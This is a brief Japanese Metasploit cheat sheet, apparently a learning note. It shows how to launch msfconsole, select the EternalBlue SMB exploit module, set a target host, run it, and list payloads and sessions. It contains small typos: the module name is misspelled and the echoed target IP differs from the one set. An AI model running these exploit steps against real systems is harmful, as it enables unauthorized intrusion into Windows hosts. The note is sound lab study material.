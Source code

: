 # metasploit

起動
```bash
msfconsole
```

payloadの選択
```
use exploit/windows/smb/ms17_010_externalblue
```

moduleの利用状況確認
```
Show options
```

Setで値を設定する
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.154.24
RHOSTS => 10.10.20.71
```

実行する
```
exploit -z
もしくは
run
```

### exploitの検索
```
sf6 > search ms17-010
```

### payloadの表示
```
show payloads
```

### セッションの表示
```
sessions -l
```
→現在有効なセッションを表示してくれる

